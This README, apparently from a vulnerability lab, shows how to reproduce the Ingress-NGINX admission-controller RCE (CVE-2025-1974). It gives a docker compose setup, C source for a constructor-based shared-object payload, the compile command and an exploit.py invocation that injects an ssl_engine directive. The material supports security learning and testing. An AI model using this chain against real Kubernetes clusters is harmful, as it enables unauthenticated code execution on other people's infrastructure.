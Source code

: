 # Kubernetes Ingress-NGINX Unauthenticated Remote Code Execution (CVE-2025-1974)

[中文版本(Chinese version)](README.zh-cn.md)

Ingress-NGINX is an ingress controller for Kubernetes that uses NGINX as a reverse proxy and load balancer.

The "IngressNightmare" vulnerability (CVE-2025-1974) stems from a critical flaw in the Ingress-NGINX Admission Controller, a core Kubernetes security mechanism responsible for validating incoming Ingress resources. This controller is exposed over the network without requiring authentication, allowing attackers to craft malicious `AdmissionReview` requests and inject unauthorized configurations into Ingress resources. When chained with other vulnerabilities (CVE-2025-24514, CVE-2025-1097, or CVE-2025-1098), this can lead to remote code execution.

Some exploitable chains are known:

- CVE-2025-1974 + CVE-2025-24514: RCE via `auth-url` annotation injection
- CVE-2025-1974 + CVE-2025-1097: RCE via `auth-tls-match-cn` annotation
- CVE-2025-1974 + CVE-2025-1098: RCE via image UID abuse

References:

- <https://www.wiz.io/blog/ingress-nginx-kubernetes-vulnerabilities>
- <https://kubernetes.io/blog/2025/03/24/ingress-nginx-cve-2025-1974/>
- <https://github.com/yoshino-s/CVE-2025-1974>
- <https://github.com/Clifford-prog/IngressNightmare-PoC>
- <https://github.com/kubernetes/ingress-nginx/blob/8c1ecd7655bd052a26e64d3361dede3096cd80c6/internal/ingress/controller/controller.go#L425>

## Environment Setup

To simulate the vulnerability, a K3s-based Kubernetes environment is used for simplicity:

```
docker compose up -d
```

The script will wait for the Kubernetes API to be ready and for the ingress-nginx controller to start. Once the environment starts, Ingress-NGINX listens on ports 30080 and 30443 (TLS), and the Ingress-NGINX Admission Controller also reverse proxies to port 30443，for example `https://localhost:30443/networking/v1/ingresses`.

## Vulnerability Reproduction

First, a shared object (`.so`) payload matching the container's architecture needs to be compiled.

```c
#include<stdio.h>
#include<stdlib.h>

__attribute__((constructor)) static void reverse_shell(void)
{
    system("touch /tmp/hacked");
}
```

Use the following command to compile the source code:

```
gcc -shared -fPIC -o shell.so shell.c
```

After compiling the source code above with the appropriate environment, use [exploit.py](exploit.py) to exploit the vulnerability:

```
python exploit.py -a https://localhost:30443/networking/v1/ingresses -i http://localhost:30080/fake/addr -s shell.so
```

The exploit works by forging an `AdmissionReview` request to inject an `ssl_engine` directive, which forces NGINX to load the malicious dynamic shared object. Upon successful exploitation, you should observe the creation of a `/tmp/hacked` file inside the ingress-nginx container.

![](1.png)
